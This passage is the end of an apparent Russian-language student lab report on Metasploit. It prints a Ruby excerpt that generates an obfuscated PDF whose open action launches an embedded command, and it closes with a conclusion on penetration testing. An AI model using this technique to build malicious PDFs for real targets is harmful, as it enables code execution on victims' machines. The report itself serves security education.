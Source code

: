 \documentclass[10pt,a4paper]{report}
\begin{document}
\begin{verbatim}
# Randomize PDF version?
pdf = "%%PDF-%d.%d" % [1 + rand(2), 1 + rand(5)] << eol
pdf << "%" << random_non_ascii_string(4) << eol
xref << pdf.length
pdf << io_def(1) << n_obfu("<</Type/Catalog/Outlines ") << io_ref(2) << n_obfu("/Pages ") << io_ref(3) << n_obfu("/OpenAction ") << io_ref(5) << ">>" << endobj
xref << pdf.length
pdf << io_def(2) << n_obfu("<</Type/Outlines/Count 0>>") << endobj
xref << pdf.length
pdf << io_def(3) << n_obfu("<</Type/Pages/Kids[") << io_ref(4) << n_obfu("]/Count 1>>") << endobj
xref << pdf.length
pdf << io_def(4) << n_obfu("<</Type/Page/Parent ") << io_ref(3) << n_obfu("/MediaBox[0 0 612 792]>>") << endobj
xref << pdf.length
pdf << io_def(5) << "<</Type/Action/S/Launch/F << /F(#{exec})>>/NewWindow true\n" + io_ref(6) + ">>" << endobj
xref << pdf.length
pdf << endobj
xrefPosition = pdf.length
pdf << "xref" << eol
pdf << "0 %d" % (xref.length + 1) << eol
pdf << "0000000000 65535 f" << eol
xref.each do |index|
pdf << "%010d 00000 n" % index << eol
end
pdf << "trailer" << n_obfu("<</Size %d/Root " % (xref.length + 1)) << io_ref(1) << ">>" << eol
pdf << "startxref" << eol
pdf << xrefPosition.to_s() << eol
pdf << "%%EOF" << eol

end

end
\end{verbatim}

Создает pdf файл с необходимым для запуска содержанием.

\section{Выводы}
В ходе выполнения работы был изучен инструмент тестов на проникновение Metasploit, с его помощью были изучены способы поиска уязвимостей хостов, осуществления атак с использованием найденных уязвимостей. Данный инструмент полезен для получения общей картины уязвимости собственных хостов, что позволит закрыть "дыры" в безопасности.
	
\end{document}
